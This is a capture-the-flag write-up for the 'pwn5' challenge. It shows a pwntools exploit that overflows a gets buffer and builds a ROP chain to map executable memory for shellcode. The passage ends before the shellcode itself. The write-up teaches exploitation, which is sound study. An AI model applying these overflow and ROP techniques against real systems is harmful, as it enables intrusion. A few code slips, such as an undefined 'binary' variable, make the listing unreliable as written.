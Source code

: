 ## Exploit

Starting off with a typical pwntools exploit template.

```python
from pwn import *
import first_day_corps

BINARY = './pwn5'
elf = ELF(BINARY)
context.binary = binary

if args['REMOTE']:
  p = remote('pwn.ctf.tamu.edu', 4325)
else:
  p = process(BINARY)
```

This template sets up the ELF binary for reference as well as either start a local process to test against or attempt to throw it remotely given the right arguments.

First, we'll set up our string to get us all the way up to the overflow.

```python
to_eip = ''
to_eip += 'John\n'  # First Name
to_eip += 'Doe\n'   # Last Name
to_eip += 'F#\n'    # Major (chord)
to_eip += 'n'       # Join corps (y/n)
to_eip += '2\n'     # Change Major
to_eip += 'A'*0x20  # Padding to reach eip using gets (080488AE / change_major+12)
```

The next 4 bytes will be where we redirect control flow to, so we should use some ROP to get us anywhere important.

```python
rop = ROP(elf, badchars='\x0a')
rop.mmap(0xBAD0F000, 0x1000, \
        constants.PROT_READ | constants.PROT_WRITE | constants.PROT_EXEC, \
        constants.MAP_PRIVATE | constants.MAP_ANON, -1, 0)
rop.gets(0xBAD0F000)
rop.call(0xBAD0F000)
```

First we define a pwnlib `pwn.rop.rop.ROP` class using the elf we already established and pass the optional `badchars` argument to let the object know to avoid any ROP that contains newlines. We then continue to set up our ROP using the conventional `mmap(rand_addr) -> read(rand_addr) -> jmp rand_addr`. An important thing to note however is that the use of `fgets`, `getchar`, and `gets` uses buffered I/O, meaning that some of our input may be sitting in an input buffer. Initial attempts used padding to meet the file buffer size worked locally, but had issues remotely. Rather than try and mess with buffer sizes, the easier solution was to continue using buffered I/O and thus the use of `gets` over `read` or any other function.

Now that our ROP is ready to go, we need to setup our shellcode that we are going to put in our mmaped address space.
